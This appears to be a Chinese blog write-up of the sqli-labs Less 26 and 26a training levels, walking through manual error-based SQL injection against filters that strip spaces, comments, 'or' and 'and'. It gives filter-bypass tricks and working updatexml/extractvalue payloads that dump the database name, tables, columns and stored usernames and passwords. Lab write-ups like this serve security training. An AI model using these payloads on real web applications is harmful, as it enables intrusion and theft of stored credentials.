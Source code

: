 # 原创
：  （手工）【sqli-labs26、26a】拼接注入、过滤后注入

# （手工）【sqli-labs26、26a】拼接注入、过滤后注入

**目录**

[推荐：](#%C2%A0%E6%8E%A8%E8%8D%90%EF%BC%9A)

[一、（手工）SQL注入基本步骤：](#%E4%B8%80%E3%80%81%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%88%E6%89%8B%E5%B7%A5%EF%BC%89SQL%E6%B3%A8%E5%85%A5%E5%9F%BA%E6%9C%AC%E6%AD%A5%E9%AA%A4%EF%BC%9A)

[二、Less25（GET-Error based - All your SPACES and COMMENTS belong to us）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[2.1、简介：（过滤-报错回显）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[2.2、第一步：注入点测试](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[ 2.3、第二步：分析过滤](#%C2%A02.3%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E5%88%86%E6%9E%90%E8%BF%87%E6%BB%A4)

[2.4、第三步：判断字段数](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E5%88%A4%E6%96%AD%E5%AD%97%E6%AE%B5%E6%95%B0)

[2.5、第四步：暴库](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9A%B4%E5%BA%93)

[2.6、第五步：爆表名](#%C2%A0%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E7%88%86%E8%A1%A8%E5%90%8D)

[2.7、第六步：爆字段](#%C2%A0%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E7%88%86%E5%AD%97%E6%AE%B5)

[2.8、第七步：爆数据](#%C2%A0%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE)

[二、Less26a（GET-Blind based - All your SPACES and COMMENTS belong to us-string single quote-Parenthesis ）](#%E4%BA%8C%E3%80%81Less25a%EF%BC%88GET-Blind%20based%20-%20All%20your%20OR%20%26%20AND%20belong%20to%20us-Intiger%20based%C2%A0%EF%BC%89)

[2.1、简介：（过滤-报错回显）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88Cookie%E6%B3%A8%E5%85%A5-%E5%8F%8C%E5%BC%95%E5%8F%B7%EF%BC%89)

[2.2、利用过程：](#2.2%E3%80%81%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B%EF%BC%9A)

---


> 
<h2>推荐：</h2>
[【SQL注入】数字型注入 &amp; 字符型注入https://blog.csdn.net/qq_53079406/article/details/125741101?spm=1001.2014.3001.5501<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125741101?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/125741101?spm=1001.2014.3001.5501)
[【WAF绕过】SQL注入、文件上传、XSShttps://blog.csdn.net/qq_53079406/article/details/124882861?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165759520116782390512182%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165759520116782390512182&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-124882861-null-null.185%5Ev2%5Econtrol&amp;utm_term=SQL%E7%BB%95%E8%BF%87&amp;spm=1018.2226.3001.4450<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/124882861?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165759520116782390512182%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165759520116782390512182&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-124882861-null-null.185%5Ev2%5Econtrol&amp;utm_term=SQL%E7%BB%95%E8%BF%87&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/124882861?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165759520116782390512182%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165759520116782390512182&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-124882861-null-null.185%5Ev2%5Econtrol&amp;utm_term=SQL%E7%BB%95%E8%BF%87&amp;spm=1018.2226.3001.4450)


---


---


## 一、（手工）SQL注入基本步骤：

> 
第一步：注入点测试
第二步：分析权限
第三步：判断字段数
第四步：爆数据库名
第五步：爆表名
第六步：爆字段名
第七步：爆数据


---


---


## 二、Less25（GET-Error based - All your SPACES and COMMENTS belong to us）

> 
<h3>2.1、简介：（过滤-报错回显）</h3>
请求方法：GET
方法：or，and ， /* , – , # , 空格 , /过滤分析+报错回显


> 
<h3>2.2、第一步：注入点测试</h3>
输入?id=1

 后面加上单引号发现报错了
说明是单引号闭合，即是字符型注入 
且可利用报错回显




> 
<h3> 2.3、第二步：分析过滤</h3>
方法一：
考虑一步一步将注入语句字符一个一个替换掉，直到不报错（浪费时间）
或者全部替换（如果报错，不知道哪里被过滤了）
<hr/>
方法二：
获取源码进行白盒审计（最优）
<hr/>方法三： 
 eg：输入id=union
看输入回显过滤语句的情况
<hr/>
最后可以知道被过滤的字符有
or，and ， /* , – , # , 空格 , /，/s
<hr/>
替代空格：
%09  TAB 键（水平）
%0a  新建一行
%0c  新的一页
%0d  return 功能
%0b  TAB 键（垂直）
%a0  空格
空格换成 ||
<hr/>
or 和 and可以用 &amp;&amp; 和 || 替换或者采用双写绕过
&amp;&amp; 要urlencode成 %26%26
<hr/>
注释被过滤掉了，就可以使用拼接进语句，将2侧进行闭合


---


---


---


> 
<h3>2.4、第三步：判断字段数</h3>



> 
<h3>2.5、第四步：暴库</h3>
?id=1'%26%26updatexml(1,concat(0x7e,(database())),1)%26%26'1' ='1




> 
<h3>2.6、第五步：爆表名</h3>
?id=1' || updatexml(1,concat(0x7e,(select (group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())),0x7e),1) || '1' ='1


 或者
?id=1'||extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)=database())))||'



> 
<h3>2.7、第六步：爆字段</h3>
?id=1'||extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema)=(database())anandd(table_name)='users')))||'





> 
<h3>2.8、第七步：爆数据</h3>
?id=1'||extractvalue(1,concat(0x7e,(select(substr((group_concat(username,passwoorrd)),1,32))from(users))))||'




---


---


## 二、Less26a（GET-Blind based - All your SPACES and COMMENTS belong to us-string single quote-Parenthesis ）

> 
<h3>2.1、简介：（过滤-报错回显）</h3>
请求方法：GET
方法：过滤分析+报错回显


> 
<h3>2.2、利用过程：</h3>
闭合使用')闭合
后面基本上和Less26一样了

